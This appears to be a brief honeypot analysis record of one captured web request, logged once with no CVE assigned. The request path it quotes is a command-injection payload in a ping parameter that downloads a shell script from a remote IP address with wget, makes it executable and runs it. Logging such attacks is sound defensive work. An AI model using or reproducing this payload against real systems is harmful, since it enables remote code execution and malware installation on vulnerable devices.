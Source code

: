 # Analysis for /op_type=ping&destination=cd%20/tmp;%20wget%20http://37.46.150.102/lolol.sh;%20chmod%20777%20lolol.sh;%20sh%20lolol.sh
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 
